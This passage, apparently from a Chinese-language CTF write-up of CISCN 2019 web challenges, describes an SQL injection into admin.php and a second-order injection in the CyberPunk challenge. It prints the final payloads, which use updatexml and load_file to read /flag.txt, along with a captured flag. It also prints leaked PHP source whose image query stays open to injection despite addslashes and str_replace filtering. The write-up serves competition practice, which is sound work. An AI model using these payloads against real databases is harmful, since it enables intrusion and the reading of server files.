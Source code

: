 弹到**cookie**，访问**admin.php**

然后就是无任何过滤的sql注入

![image-20221220122655359](ciscn.assets/image-20221220122655359.png)

## [CISCN2019 华北赛区 Day1 Web5]CyberPunk

不知道为什么buu的环境查看文件会报错。。

查看源代码发现`?file=`，然后利用查看各种文件（也没看到，就不放了）发现只有address这里没有过滤

那就是一个简单的二次注入了

最终payload

```sql
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,200)),0x7e),1)#
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,200)),0x7e),1)#
//有长度限制
//flag{ccebab39-c01d-460d-b166-b8a6eecd8427}
```

## [CISCN2019 总决赛 Day2 Web1]Easyweb

有个image.php里面有id参数，试了一下得到`image.php.bak`

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```
